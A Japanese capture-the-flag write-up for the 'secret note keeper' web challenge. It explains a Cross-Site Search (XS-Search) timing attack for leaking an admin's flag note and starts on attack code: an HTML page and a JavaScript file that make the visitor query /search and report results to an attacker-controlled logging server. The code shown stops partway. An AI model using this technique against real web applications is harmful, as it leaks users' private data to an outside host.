 ### secret note keeper (676)
> Find the secret note that contains the fl4g!
>  
> (URL)
>  
> (Timeout is 5 seconds for links, flag is case insensitive)

与えられた URL にアクセスするとログインフォームが表示されました。適当なユーザ名とパスワードで登録してみると、ノートの登録ができるページ (`/nots`)、検索ができるページ (`/search`)、管理者に好きな URL を訪問させることができるページ (`/report_bugs`) へのリンクが表示されました。

`/notes` は現在ログインしているユーザのノートしか表示されず、それぞれのノートの個別ページも投稿者しか閲覧できません。また、`<>&'"` はそれぞれ `&lt;` `&gt;` `&amp;` `&#39;` `&#34` に置換されており、XSS はできそうにありません。

`/search` では現在ログインしているユーザのノートの内容が検索できます。SQL の `LIKE` 句のように、`%` や `_` を使って case-insensitive なあいまい検索ができるようです。検索結果は以下のように `iframe` を使って表示されます。

```html
        <div style="float: left; padding: 5px; border: 1px black solid">
          <iframe style="border: none" src="/note/62"></iframe>
        </div>
```

さて、どうやってフラグを手に入れればいいのでしょうか。問題文から管理者はフラグが含まれているノートを登録していることが推測できますが、`/search` 等を使って読み出すことはできないでしょうか。

こういった状況で使えるものに [Cross-Site Search (XS-Search) という手法](https://www.owasp.org/images/a/a7/AppSecIL2015_Cross-Site-Search-Attacks_HemiLeibowitz.pdf)があります。今回の Web アプリケーションでは、例えば `fb{example}` という内容のノートが存在していれば、`fa` を検索したときと `fb` で検索したときでは後者の方がレスポンスが遅くなるはずです。

では、アクセスすると訪問者に `/search` を叩かせるスクリプトを書きましょう。

`index.html`

```html
<!doctype html>
<html>
  <head>
    <meta charset="utf-8">
    <title>XS-Search</title>
  </head>
  <body>
    <script src="index.js"></script>
  </body>
</html>
```

`index.js`

```javascript
const target = 'http://(問題サーバ)/search?query=';
const urlToReport = 'http://(攻撃者のサーバ)/log.php?';
const known = decodeURIComponent(location.href.split('?')[1]);
const dummy = ';';
let table = dummy + 'abcdef';
//let table = dummy + 'ghijkl';
//let table = dummy + 'mnopqr';
//let table = dummy + 'stuvwx';
//let table = dummy + 'yz0123';
//let table = dummy + '456789';
//let table = dummy + '{}!';

//let table = dummy + "'#$&(";
//let table = dummy + ")*+,-";
//let table = dummy + "./:;<";
//let table = dummy + ">?@[|";
//let table = dummy + "]^`{}~";

table = table.split('');
//table.push(['\\_']);

```